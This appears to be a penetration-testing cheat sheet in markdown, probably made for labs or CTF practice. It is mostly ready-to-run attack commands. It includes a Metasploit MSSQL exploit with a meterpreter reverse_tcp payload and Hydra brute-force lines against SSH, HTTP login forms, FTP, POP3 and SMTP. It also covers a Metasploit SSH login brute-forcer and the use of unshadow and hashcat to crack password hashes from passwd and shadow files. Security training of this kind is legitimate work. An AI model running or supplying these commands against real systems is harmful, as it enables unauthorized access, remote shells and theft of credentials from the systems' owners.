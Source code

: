 ### Metasploit MSSQL Shell

```bash
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```

# Gaining Access

- hydra: bruteforce tool

    ```bash
    hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.101 -t 4 -v -f
    #-l is the user we want to attack, -P password file list, -t threads, -v verbose
    #it's better to intercept the login page with burp, check to see the correct username&password syntax and copy the exact failed message
    -#f   exit when a login/pass pair is found
    hydra -l hasamba -P ~/Desktop/test_passwords.txt 10.0.0.210 -s 8085 http-post-form "/login/:username=^USER^&password=^PASS^:F=Authentication failed" -VVV -t 6 -
    hydra OPT #will show us optional moduls for http and such
    hydra -U MODULE_NAME #will show module examples

    hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V #Hydra FTP brute force
    hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V #Hydra POP3 brute force
    hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V #Hydra SMTP brute force

    hydra -l username -P password-list <URL_TO_SERVER> http-post-form "<PATH-TO_LOGIN>:POST_REQUEST_FOR_LOGIN:FAILED_RESPONSE_IDENTIFIER"
    ```

- metasploit - can also bruteforce

    ```bash
    use auxialary/scanner/ssh/ssh_login
    options
    set username root
    set pass_file /usr/share...
    set rhosts
    set threads 10
    set verbose true
    run
    ```

- unshadow (kali) - combine both files and will insert the hashed passwords to the passwd file, so we can use this file with hashcat to maybe decrypt the password.

    ```bash
    unshadow PASSSWD_FILE SHADOW_FILE
    ```

- [hashcat](https://www.notion.so/Hashcat-b885f8ac8c0f450986d62c0d29f44cb9) - crack passwords hashes ([Cheat Sheet](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/a44ab748-a9a9-437e-a4a1-2fa1cc6c03a8/HashcatCheatSheet.v2018.1b.pdf?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAT73L2G45O3KS52Y5%2F20201122%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20201122T190235Z&X-Amz-Expires=86400&X-Amz-Signature=03753b73d70b97901e6a764011ae5ffdbffc2d9dcbd00673f79b64097b1299d9&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22HashcatCheatSheet.v2018.1b.pdf%22))
